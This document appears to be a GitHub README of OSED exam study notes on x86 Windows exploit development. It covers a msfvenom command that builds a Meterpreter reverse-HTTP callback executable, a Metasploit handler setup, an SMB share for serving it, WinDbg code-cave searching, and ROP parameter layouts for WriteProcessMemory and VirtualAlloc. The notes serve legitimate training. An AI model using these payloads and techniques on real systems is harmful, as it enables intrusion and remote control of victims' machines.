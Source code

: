 # x86Win-OSED-Notes

### [Cẩm nang đi thi](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/H%C6%B0%E1%BB%9Bng%20d%E1%BA%ABn/C%E1%BA%A8M%20NANG.MD)

# Pattern generation:
```
$ msf-pattern_create -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

# met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

# smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

# Code cave search:
we can find the offset to the PE header by dumping the DWORD at offset 0x3C from the MZ header. Then, add 0x2C to the offset to find the offset to the code section
```
0:077> dd libeay32IBM019 + 3c L1
031f003c 00000108
0:077> dd libeay32IBM019 + 108 + 2c L1
031f0134 00001000
0:077> ? libeay32IBM019 + 1000
Evaluate expression: 52367360 = 031f1000
```
Use the !address or !vprot command to collect information about the code section.
```
0:077> !address 031f1000
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Check for sufficient size for code cave
```
0:077> dd 03283000-400
03282c00 00000000 00000000 00000000 00000000
03282c10 00000000 00000000 00000000 00000000
03282c20 00000000 00000000 00000000 00000000
03282c30 00000000 00000000 00000000 00000000
03282c40 00000000 00000000 00000000 00000000
03282c50 00000000 00000000 00000000 00000000
03282c60 00000000 00000000 00000000 00000000
03282c70 00000000 00000000 00000000 00000000

0:077> ? 03283000-400 - libeay32IBM019
Evaluate expression: 601088 = 00092c00

0:077> !address 03282c00
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Alternative: Use Pykd code caver: https://github.com/nop-tech/code_caver
```
!py C:\Users\admin\Desktop\code_caver.py <startAddress> <endAddress>
```

# Stack set-ups
WriteProcessMemory: https://connormcgarr.github.io/ROP2/
```
# kernel32!WriteProcessMemory placeholder parameters
crash += struct.pack('<L', 0x61c832e4)    # Pointer to kernel32!WriteFileImplementation (no pointers from IAT directly to kernel32!WriteProcessMemory, so loading pointer to kernel32.dll and compensating later.)
crash += struct.pack('<L', 0x61c72530)    # Return address parameter placeholder (where function will jump to after execution - which is where shellcode will be written to. This is an executable code cave in the .text section of sqlite3.dll)
crash += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
crash += struct.pack('<L', 0x61c72530)    # lpBaseAddress = pointer to where shellcode will be written to. (0x61C72530 is an executable code cave in the .text section of sqlite3.dll) 
crash += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
crash += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
crash += struct.pack('<L', 0x1004D740)    # lpNumberOfBytesWritten = writable location (.idata section of ImageLoad.dll address in a code cave)
```
VirtualAlloc:
```
functionAddress = b"AAAA"       # VirtualAllocStub address
shellcodeAddress = b"BBBB"      # shellcode address
param1 = b"CCCC"                # lpAddress = shellcode address
param2 = b"DDDD"                # dwSize
param3 = b"EEEE"                # flAllocationType
param4 = b"FFFF"                # flProtect
```

